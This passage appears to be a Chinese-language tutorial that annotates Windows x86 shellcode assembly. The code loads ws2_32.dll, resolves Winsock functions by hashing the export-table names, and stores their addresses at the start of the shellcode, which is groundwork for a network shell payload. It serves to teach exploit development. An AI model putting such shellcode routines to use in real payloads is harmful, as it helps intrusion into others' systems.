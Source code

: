 ```assembly
	call [edi - 0xc] 		; LoadLibraryA 
	xchg eax, ebp 			; restore current hash, and update ebp 
							; with base address of ws2_32.dll 
	push edi 				; save location of addr of first winsock function 
	
find_functions: 
	pushad 						; preserve registers 
	mov eax, [ebp + 0x3c]		; eax = start of PE header 
	mov ecx, [ebp + eax + 0x78]	; ecx = relative offset of export table 
	add ecx, ebp 				; ecx = absolute addr of export table 
	mov ebx, [ecx + 0x20] 		; ebx = relative offset of names table 
	add ebx, ebp 				; ebx = absolute addr of names table 
	xor edi, edi 				; edi will count through the functions 

next_function_loop: 
	inc edi 					; increment function counter 
	mov esi, [ebx + edi * 4] 	; esi = relative offset of current function name 
	add esi, ebp 				; esi = absolute addr of current function name 
	cdq 						; dl will hold hash (we know eax is small) 
	
hash_loop: 
	lodsb 					; load next char into al and increment esi 
	xor al, 0x71 			; XOR current char with 0x71 
	sub dl, al 				; update hash with current char 
	cmp al, 0x71 			; loop until we reach end of string 
	jne hash_loop 
	cmp dl, [esp + 0x1c] 	; compare to the needed hash (saved on stack by pushad) 
	jnz next_function_loop
```

定位成功，找到地址：

```assembly
    mov ebx, [ecx + 0x24] 		; ebx = relative offset of ordinals table 
    add ebx, ebp 				; ebx = absolute addr of ordinals table 
    mov di, [ebx + 2 * edi] 	; di = ordinal number of matched function 
    mov ebx, [ecx + 0x1c] 		; ebx = relative offset of address table 
    add ebx, ebp 				; ebx = absolute addr of address table 
    add ebp, [ebx + 4 * edi] 	; add to ebp (base addr of module) the 
    							; relative offset of matched function 
```

把地址写入到shellcode开头空间：

```assembly
	xchg eax, ebp 			; move func addr into eax 
	pop edi 				; edi is last onto stack in pushad 
	stosd 					; write function addr to [edi] and increment edi 
	push edi 
```

继续，完成循环：

```assembly
	popad					; restore registers 
	cmp esi, edi 			; loop until we reach end of last hash 
	jne find_lib_functions 
	pop esi 				; saved location of first winsock function 
							; we will lodsd and call each func in sequence 
```
